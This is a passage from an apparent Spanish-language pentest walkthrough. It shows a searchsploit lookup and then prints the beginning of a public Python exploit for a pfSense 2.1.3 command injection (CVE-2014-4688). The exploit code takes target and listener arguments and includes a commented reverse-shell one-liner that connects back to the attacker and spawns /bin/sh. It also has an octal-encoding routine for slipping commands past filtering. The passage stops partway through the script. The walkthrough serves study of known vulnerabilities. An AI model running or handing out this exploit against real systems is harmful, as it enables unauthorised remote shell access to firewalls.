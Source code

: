 ```
❯ searchsploit pfsense 2.1.3
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection | php/webapps/43560.py
```

Si vemos un poco el contenido del exploit:

```python title="43560.py"
#!/usr/bin/env python3

# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date: 2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password


# command to be converted into octal
# command = """
# python -c 'import socket,subprocess,os;
# s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
# s.connect(("%s",%s));
# os.dup2(s.fileno(),0);
# os.dup2(s.fileno(),1);
# os.dup2(s.fileno(),2);
# p=subprocess.call(["/bin/sh","-i"]);'
# """ % (lhost, lport)

command = f"ping -c 4 {lhost}"

payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

```